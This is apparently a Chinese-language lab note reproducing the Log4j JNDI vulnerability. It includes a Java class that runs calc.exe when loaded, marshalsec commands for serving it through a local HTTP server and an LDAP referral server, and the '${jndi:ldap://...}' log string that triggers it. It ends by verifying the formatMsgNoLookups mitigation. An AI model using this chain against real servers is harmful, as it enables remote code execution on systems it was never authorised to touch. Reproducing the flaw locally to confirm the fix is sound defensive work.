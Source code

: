 



### 参考

https://www.sohu.com/a/507149733_120743310

### 漏洞复现步骤

#### 1、编译marshalsec

marshalsec下载地址：https://github.com/mbechler/marshalsec.git

maven编译marshalsec成jar包

```java
mvn clean package -DskipTests
```

#### 2、准备漏洞文件

robots.java

```java
import java.lang.Runtime;
import java.lang.Process;

public class robots{
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"calc.exe"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

javac编译成robots.class文件

```java
javac robots.java
```

#### 3、 搭建环境

- 搭建http服务器

  > python -m http.server 80		# 需要python3版本，且robots.class文件必须放在当前目录下

![image-20211211140545438](C:\Users\Zoser\AppData\Roaming\Typora\typora-user-images\image-20211211140545438.png)



- 搭建ldap服务器

借助marshalsec启动一个LDAP服务器，监听9999端口

> java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1/#robots" 9999

![image-20211211145143288](C:\Users\Zoser\AppData\Roaming\Typora\typora-user-images\image-20211211145143288.png)

#### 4、log4j漏洞复现

随便写一个测试接口，输出如下日志

```java
log.info("${jndi:ldap://localhost:9999/robots}");
```

访问接口会触发漏洞

![image-20211211141616935](C:\Users\Zoser\AppData\Roaming\Typora\typora-user-images\image-20211211141616935.png)

#### 5、临时解决方案验证

已验证。在添加jvm启动参数-Dlog4j2.formatMsgNoLookups=true后可以解决此问题



